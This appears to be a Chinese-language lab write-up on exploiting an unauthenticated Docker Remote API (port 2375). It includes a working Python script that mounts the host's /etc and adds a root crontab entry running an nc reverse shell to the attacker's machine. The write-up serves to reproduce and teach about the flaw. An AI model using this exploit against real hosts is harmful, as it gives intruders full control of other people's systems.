

Docker Remote API 未授权访问导致远程代码执行¶
Docker是一个提供容器化软件打包和交付的平台即服务（PaaS）解决方案。Docker守护进程（dockerd）提供了一个REST API，允许远程管理Docker容器、镜像和其他资源。
当Docker守护进程被配置为监听网络端口（通常是TCP端口2375）且未启用适当的身份验证机制时，攻击者可以未经授权访问Docker API。利用此漏洞，攻击者可以在主机系统上创建、修改和执行容器，可能导致远程代码执行、数据窃取以及完全控制主机系统。
环境搭建¶
执行以下命令启动存在漏洞的Docker环境：
docker compose build
docker compose up -d
环境启动后，Docker守护进程将在2375端口上监听，且不需要任何身份验证。
漏洞复现¶
这个漏洞可以使用Python的docker-py库进行利用。攻击方法是创建一个新容器并挂载主机的/etc目录，这样攻击者就能修改系统关键文件。在这个示例中，我们将通过添加一个恶意的crontab条目来创建反弹shell，以演示漏洞的危害。
首先，安装所需的Python库：
pip install docker
然后创建并运行以下Python脚本来利用漏洞：
import docker
client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
这个脚本创建了一个容器，挂载主机的/etc目录，并向root用户的crontab添加一个反弹shell命令。在一分钟内，cron守护进程将执行该命令，建立一个反弹shell连接到攻击者的机器。
成功利用漏洞后，可以收到反弹shell连接：

这个漏洞展示了正确保护Docker守护进程访问和为远程API端点实施身份验证机制的重要性。